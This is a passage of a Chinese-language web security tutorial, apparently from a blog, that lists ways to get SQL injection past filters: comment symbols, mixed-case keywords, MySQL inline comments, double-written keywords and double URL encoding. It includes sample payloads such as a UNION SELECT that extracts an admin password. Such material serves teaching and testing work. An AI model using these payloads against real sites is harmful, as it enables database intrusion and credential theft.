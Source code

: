 

## 六、常见的绕过方式
### <font style="color:#000000;">1.注释符号绕过</font>
```sql
--  注释内容
# 注释内容
/*注释内容*/
;
;%00
```

### 2.大小写绕过
如果用关键字阻塞过滤器显得不够聪明，可以通过变换攻击字符串中字符的大小写来避开它们，因为数据库使用不区分大小写的方式处理SOL关键字。例如，如果下列输入被阻止:

```sql
UNION SELECT password FROM tblUsers WHERE username='admin'--
```

可以通过下列方法绕开过滤器:

```sql
uNiOn SeLeCt password FrOm tblUsers WhErE username='admin'-- 
```

### 3.内联注释绕过
内联注释就是把一些特有的仅在MYSQL上的语句放在 /!../ 中，这样这些语句如果在其它数据库中是不会被执行，但在MYSQL中会执行。

```sql
 select * from cms_users where userid=1 union /*!select*/ 1,2,3;
```

### 4.双写绕过
<font style="color:rgb(77, 77, 77);">使用双写绕过。因为在过滤过程中只进行了一次替换。就是将关键字替换为对应的空。</font>

<font style="color:rgb(77, 77, 77);">比如 union在</font>[<font style="color:rgb(77, 77, 77);">程序员</font>](https://so.csdn.net/so/search?q=%E7%A8%8B%E5%BA%8F%E5%91%98&spm=1001.2101.3001.7020)<font style="color:rgb(77, 77, 77);">处理时被替换为空，那需要我们可以尝试把</font><font style="color:rgb(254, 44, 36);">union</font><font style="color:rgb(77, 77, 77);">改写为</font><font style="color:rgb(254, 44, 36);">Ununionion</font><font style="color:rgb(77, 77, 77);">，这样红</font>

<font style="color:rgb(77, 77, 77);">色部分替换为空，则剩下的依然为union还可以</font><font style="color:rgb(254, 44, 36);">结合大小写</font><font style="color:rgb(77, 77, 77);">过滤一起使用</font>

### <font style="color:#000000;">5.编码绕过</font>
<font style="color:rgb(77, 77, 77);">如URLEncode编码，ASCII,HEX,unicode编码绕过：</font>

#### **<font style="color:rgb(77, 77, 77);">对关键字进行两次url全编码：</font>**
```sql
1+and+1=2
1+%25%36%31%25%36%65%25%36%34+1=2 
```

